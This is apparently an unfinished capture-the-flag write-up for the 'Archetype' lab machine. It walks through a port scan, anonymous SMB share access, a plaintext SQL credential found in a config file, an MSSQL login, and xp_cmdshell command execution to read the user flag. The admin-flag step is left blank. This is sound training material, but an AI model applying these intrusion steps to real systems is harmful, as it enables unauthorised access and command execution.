 # Archetype 

> Easy | Windows 

<br>

### Process:
1) run autorecon
- `sudo python3 autorecon 10.10.10.27`
- found:
  - 135,139,445 (NetBIOS)
  - 1433 (mssql)

<br>

2a) enumerate 135,139,445 (NetBIOS):
- found share "backups" that was read only
  - connect and inspect with no password: `smbclient //10.10.10.27/backups -N`
  - found "prod.dtsConfig" -- contains password information for sql:
    - ARCHETYPE\sql_svc:M3g4c0rp123
- found share "IPC$" that was read only

<br>

3) try to login to mssql service:
- `python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth` -- sucess
  
4) get user flag:
- `EXEC xp_cmdshell 'type C:\Users\sql_srv\Desktop\user.txt`

<br>

5) get admin flag:
- 

